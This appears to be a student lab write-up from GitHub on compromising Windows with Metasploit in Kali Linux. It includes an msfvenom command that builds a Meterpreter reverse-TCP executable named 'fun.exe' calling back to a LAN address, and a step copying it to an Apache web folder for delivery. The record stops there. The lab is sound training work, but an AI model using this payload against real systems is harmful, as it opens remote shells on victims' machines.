 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig

<img width="1920" height="1080" alt="KALI 2  Running  - Oracle VirtualBox 25-10-2025 08_33_30" src="https://github.com/user-attachments/assets/4b3b93ef-60d9-4d1e-acae-75ef0d9dce86" />


## OUTPUT:



Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

<img width="955" height="150" alt="Screenshot 2025-10-25 091100" src="https://github.com/user-attachments/assets/27cdc760-3991-4b14-af96-e62633b766cf" />


## OUTPUT:


copy the fun.exe into the apache /var/www/html folder

<img width="621" height="66" alt="Screenshot 2025-10-25 090956" src="https://github.com/user-attachments/assets/922e33bc-6837-4c31-98d5-8a072f04a495" />

## OUTPUT:
